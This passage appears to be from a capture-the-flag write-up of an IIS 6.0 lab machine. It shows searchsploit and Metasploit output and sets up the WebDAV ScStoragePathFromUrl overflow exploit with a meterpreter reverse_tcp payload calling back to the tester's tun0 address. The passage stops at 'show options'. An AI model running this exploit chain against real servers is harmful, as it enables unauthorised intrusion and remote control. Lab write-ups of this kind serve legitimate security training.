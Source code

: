 ```
Microsoft IIS 6.0/7.5 (+ PHP) - Multiple Vulnerabilities                                                            | windows/remote/19033.txt
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

After checking the exploit files, I returned the msfconsole to search for the Auth Bypass exploits for IIS6 and came across the following two vulnerabilities:

```
[msf](Jobs:0 Agents:0) >> search exploit iis6                                                                                                 [1/1801]
                                                                                                                                                      
Matching Modules
================

   #  Name                                                   Disclosure Date  Rank    Check  Description
   -  ----                                                   ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/dir_webdav_unicode_bypass                        normal  No     MS09-020 IIS6 WebDAV Unicode Auth Bypass Directory Scanner
   1  auxiliary/scanner/http/ms09_020_webdav_unicode_bypass                   normal  No     MS09-020 IIS6 WebDAV Unicode Authentication Bypass


Interact with a module by name or index. For example info 1, use 1 or use auxiliary/scanner/http/ms09_020_webdav_unicode_bypass

```

### Exploitation

Use the msf exploit, set the RHOSTS to target machine IP, set the LHOST to my tun0 ip and run the exploit.&#x20;

```
[msf](Jobs:0 Agents:0) >> search exploit Microsoft IIS 6.0                  

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank    Check  Description
   -  ----                                                 ---------------  ----    -----  -----------
   0  exploit/windows/iis/iis_webdav_scstoragepathfromurl  2017-03-26       manual  Yes    Microsoft IIS WebDav ScStoragePathFromUrl Overflow


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/iis/iis_webdav_scstoragepathfromurl

[msf](Jobs:0 Agents:0) >> use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(windows/iis/iis_webdav_scstoragepathfromurl) >> set LHOST tun0
LHOST => 10.10.14.16
[msf](Jobs:0 Agents:0) exploit(windows/iis/iis_webdav_scstoragepathfromurl) >> set RHOSTS 10.10.10.15
RHOSTS => 10.10.10.15
[msf](Jobs:0 Agents:0) exploit(windows/iis/iis_webdav_scstoragepathfromurl) >> show options

Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):
```